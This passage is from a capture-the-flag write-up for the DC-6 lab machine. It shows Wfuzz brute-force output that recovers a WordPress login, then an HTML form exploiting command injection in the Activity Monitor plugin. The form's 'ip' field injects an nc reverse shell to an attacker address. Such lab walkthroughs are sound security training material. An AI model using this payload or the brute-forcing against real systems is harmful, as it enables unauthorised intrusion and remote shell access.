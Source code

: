 ```
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://wordy/wp-login.php
Total requests: 13340

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000009879:   302        0 L      0 W      0 Ch        "mark - helpdesk01"                                                   

```
Great, we got the password of the user `mark`.
```
username : mark
passworc : helpdesk01
```
Use this password to access wordpress.
![wordpress](/assets/img/dc-6/wordpress.png)

## Exploting wordpress plugin
We can see a plugin `Activity monitor`. 
![active monitor](/assets/img/dc-6/activitymonitor.png)
There is an exploit available for this plugin you can check [here](https://www.exploit-db.com/exploits/45274). This plugin is vulnerable to OS command injection. 

We have to modify our POST request in order to make it work.
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc 192.168.1.2 4444 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Save the above file with .html extension and through the browser navigate into the html file by setting python http server.
